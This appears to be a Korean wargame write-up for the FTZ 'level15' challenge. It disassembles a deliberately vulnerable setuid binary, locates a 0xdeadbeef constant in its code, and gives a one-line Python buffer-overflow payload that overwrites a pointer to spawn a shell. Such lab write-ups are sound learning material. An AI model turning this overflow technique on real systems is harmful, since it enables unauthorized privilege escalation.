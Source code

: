 # level 15

* id : `level15`
* pw : `guess what`

![](./img/2021-11-10-14-30-20.png)

이번엔 저 check의 포인터가 가르키는 곳까지 도달을 하거나, 강제로 리턴주소를 돌려 쉘을 켜야한다.

```python
0x08048490 <main+0>:    push   ebp
0x08048491 <main+1>:    mov    ebp,esp
0x08048493 <main+3>:    sub    esp,0x38                     # 총 할당받은 버퍼들(0x38 == 56)
0x08048496 <main+6>:    sub    esp,0x4
0x08048499 <main+9>:    push   ds:0x8049664                 # stdin
0x0804849f <main+15>:   push   0x2d                         # 0x2d == 45
0x080484a1 <main+17>:   lea    eax,[ebp-56]                 # 배열 위치 [ebp-56]
0x080484a4 <main+20>:   push   eax
0x080484a5 <main+21>:   call   0x8048360 <fgets>
0x080484aa <main+26>:   add    esp,0x10
0x080484ad <main+29>:   mov    eax,DWORD PTR [ebp-16]       # check 변수의 위치 [ebp-16]
0x080484b0 <main+32>:   cmp    DWORD PTR [eax],0xdeadbeef
0x080484b6 <main+38>:   jne    0x80484dd <main+77>
0x080484b8 <main+40>:   sub    esp,0x8
0x080484bb <main+43>:   push   0xc18
0x080484c0 <main+48>:   push   0xc18
0x080484c5 <main+53>:   call   0x8048380 <setreuid>
0x080484ca <main+58>:   add    esp,0x10
0x080484cd <main+61>:   sub    esp,0xc
0x080484d0 <main+64>:   push   0x8048548
0x080484d5 <main+69>:   call   0x8048340 <system>
0x080484da <main+74>:   add    esp,0x10
0x080484dd <main+77>:   leave
0x080484de <main+78>:   ret
0x080484df <main+79>:   nop
```

너무나 쉽게 `buf`의 주소가 `[ebp-56]` 이고 `check` 의 주소가 `[ebp-16]` 임을 알았다. 즉 `[ebp-16]`에 `deadbeef`만 채워주면 된다.

하지만 여기서 DWORD PTR `[ebp-16]`, 즉 `*check` 가 [ebp-16] 이므로, 결론적으로 저기에 `deadbeef` 값을 덮어씌워도 `0xdeadbeef`라는 주소에만 접근 시도를 할 뿐이지 if 문이 진행되진 않는다.

그렇다면, 저 프로그램 내에서 `deadbeef`값이 들어있는 주소를 찾아 그걸 `*check`에 할당시키면 된다.

![](./img/2021-11-10-14-42-55.png)

`0xdeadbeef` 가 포함된 주소는 `0x080484b2`임을 확인했다. 넣어주면 된다.

```bash
(python -c 'print "A"*(40) + "\xb2\x84\x04\x08"'; cat) | ./attackme
```

![](./img/2021-11-10-14-45-08.png)

GG!